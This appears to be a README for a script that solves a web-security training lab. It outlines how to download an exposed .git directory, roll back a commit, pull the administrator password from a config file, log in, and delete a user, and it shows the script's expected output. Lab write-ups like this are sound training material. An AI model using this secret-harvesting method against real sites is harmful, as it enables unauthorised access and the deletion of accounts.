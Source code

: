 ## Hack Steps

1. Fetch the .git directory
2. Reset to the previous commit
3. Get the administrator password from the admin.conf file
4. Login as administrator
5. Delete carlos

## Run Script

1. Change the domain of the lab
2. Make sure that **wget** and **git** are installed on your system
3. Start script

```
~$ python main.py
```

## Expected Output

```
⦗1⦘ Fetching .git directory (wait a minute).. OK
                ............
⦗2⦘ Changing current working directory.. OK
HEAD is now at 3c05f9c Add skeleton admin panel
⦗3⦘ Resetting to the previous commit.. OK
⦗4⦘ Reading admin.conf file.. OK
⦗5⦘ Extracting the administrator password.. OK => wg9ypbuxnz4ffq38bdau
⦗6⦘ Fetching the login page to get a valid session and csrf token.. OK
⦗7⦘ Logging in as administrator.. OK
⦗8⦘ Deleting carlos.. OK
🗹 The lab should be marked now as solved
```
